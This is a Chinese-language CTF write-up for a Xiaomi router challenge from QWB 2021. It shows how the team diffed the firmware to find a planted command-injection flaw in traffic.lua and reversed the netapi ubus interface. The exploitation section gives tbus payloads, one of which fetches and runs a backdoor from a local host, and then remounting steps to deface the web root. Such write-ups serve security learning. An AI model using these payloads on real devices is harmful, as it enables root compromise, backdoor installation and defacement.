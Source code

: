 # QWB-2021-Final:RealWorld MiRouter WriteUp
>Redbud IoT     

[toc]
## 0x01 题目：
![题目](./img/question.jpg)

## 0x02 总体思路
### 1)审题
通过题目的说明，我们可以判断几个结论：   
1. 提供ssh，很大可能是小米提供的开发版固件。（后面验证确实）   
2. 题目说刷入patch，本次RW估计是埋的漏洞，而非0day或者1day。    
### 2)Diff
打包固件文件，并通过后台发现固件版本为：2.13.65。    
下载相同版本固件（http://bigota.miwifi.com/xiaoqiang/rom/r3p/miwifi_r3p_firmware_daddf_2.13.65.bin）进行对比。    
结果就一个lua脚本不同（/usr/lib/lua/traffic.lua），如下： 

![diff](./img/diff.png)
发现是疑似命令注入过滤去掉`$`的转义，这样就可以通过`$()`的方式触发命令注入漏洞。   
### 3)binary关联分析
已经知道了出题人埋的漏洞点，现在要确认该lua脚本谁调用的。
1. 通过字符串匹配，可以找到/usr/sbin/netapi加载了该lua脚本。  
2. 通过如下通信关系，可以发现netapi与trafficd通信，trafficd作为服务开放了784端口。   
```
tcp 0 0 127.0.0.1:784 127.0.0.1:25351 ESTABLISHED 56 4352 5218/trafficd 
tcp 0 0 127.0.0.1:25351 127.0.0.1:784 ESTABLISHED 28 4388 5440/netapi  
```
其实通过分析发现:    
- trafficd是个魔改ubusd的一个总线通信服务程序。  
- netapi而是作为ubus客户端与总线注册和通信。    
- traffic.lua呗netapi加载调用。   

我们在小米固件中也发现tbus程序，可以监听tbus总线信息，通过tbus list就可以发现netapi注册对象。   
```
>tbus list
>netapi
```
### 4）攻击链猜测
`发送payload---->trafficd（784）--[转发payload]-->netapi--[解析参数]-->traffic.lua---->触发命令注入获取Root Shell----->上黑页`
### 小节
到此，我们发现2个binary和一个lua脚本要分析,漏洞类型为命令注入漏洞。我们需要知道如何给trafficd发送消息，以及发送什么消息。   
发送消息的方法可以通过`tbus call`，发送什么消息向那个event就需要逆向分析了。

## 0x03 程序分析

### 1) /usr/lib/lua/traffic.lua
核心代码如下，cmdfmt就是用于防命令注入的函数（diff点），通过trafficd_lua_ecos_pair_verify(repeater_token)函数传入触发命令注入执行。
![](./img/lua.png)

这样trafficd_lua_ecos_pair_verify，repeater_token两个关键词在后续分析就较为重要。   

### 2） /usr/sbin/netapi
#### 逆向分析

通过字符串定位到如下位置，netapi加载traffic.lua，然后调用trafficd_lua_ecos_pair_verify函数，传参执行。   
![](./img/netapi1.png)
既然我们已经知道它是作为tbus的通信客户端，也知道到如何触发命令注入，所以我们现在就要搞清楚，tbus（ubus）的注册method和data。   
```
tbus call netapi <method> <data>
```
我们上述定位的函数sub_402070()，其实就是注册调用的回调函数，因为其功能是当消息过来之后xxx功能如何处理xxx数据。      
但是交叉索引找不到谁调用了sub_402070()。    
这我们就需要先了解下ubus如何注册订阅的，如下代码ubus客户端，需要ubus_subscriber结构对象来注册，该结构体包括了name,path,method,cb等，我们关心的参数，所以我们找到谁引用0x402070函数指针，ida没有识别出来，需要我们自己解决。         
```
static struct ubus_subscriber test_event;  
...
/* 通知到来时的处理函数。 */  
test_event.cb = test_notify;  
test_event.remove_cb = test_handle_remove; //server主动发起删除该client的订阅的cb函数（如server退出的时候）  

/* 注册test_event */  
ret = ubus_register_subscriber(ctx, &test_event);  
```
https://e-mailky.github.io/2017-08-14-ubus2

struct ubus_subscriber:   
```
121 struct ubus_object {
122         struct avl_node avl;
123 
124         const char *name;
125         uint32_t id;
126 
127         const char *path;
128         struct ubus_object_type *type;
129 
130         ubus_state_handler_t subscribe_cb;
131         bool has_subscribers;
132 
133         const struct ubus_method *methods;
134         int n_methods;
135 };
136 
137 struct ubus_subscriber {
138         struct ubus_object obj;
139 
140         ubus_handler_t cb;
141         ubus_remove_handler_t remove_cb;
142 };
```
https://lxr.openwrt.org/source/ubus/libubus.h#L34

通过地址信息我们发现如下：   
![](./img/netapi2.png)
修复后如下：
![](./img/netapi3.png)
到这我们知道method为init。    
```
tbus call netapi init <data>
```
最后就是数据格式了，通过固件全局搜tbus，会发现很多tbus执行脚本，我们知道后面的数据为json格式，还是之前的处理函数，通过该语句我们知道其处理获取data参数数据。
```
blobmsg_parse(&off_4061D0, 1, &v31, a5 + 1, (v7 & 0xFFFFFF) - 4);
//&off_4061D0 = data
```
最终获取的tbus命令如下：
```
tbus call netapi init '{"data":"re1111111"}'
```
#### 调试
其实在整个过程中我们可以重启netapi 开启level=5，打印调试信息。
`/usr/sbin/netapi -l 5`

![](./img/netapi4.png)

### 3）/usr/sbin/trafficd
得知其作为tbusd服务程序，就不需要深入分析了。


## 0x04 漏洞利用
如下方式可以执行命令：
```
tbus call netapi init '{"data":"re$(touch /tmp/re111)"}'
```
可以下载后门执行获取shell:   
```
tbus call netapi init '{"data":"re$(wget http://192.168.31.7:8000/backdoor -O /tmp/backdoor ; chmod +x /tmp/backdoor ; /tmp/backdoor )111"}'
```
在这拿到shell并不代表结束，我们还需要写黑页，因为该文件系统是只读无法直接修改，我们可以通过重挂在的方式完成该任务。     
* `cp -r /www /tmp/fake_www`；
* `mount -o loop /tmp/fake_www /www`；
* 修改 `/tmp/fake_www/index.html` 为黑页即可。

## 0x05 武器化
我们以上的测试都是通过tbus完成，最终我们想利用有两个方法：
1. qemu+tbus程序
2. 抓流量写脚本

最终我们比赛中采用抓流量写脚本的方式，较为稳定。    
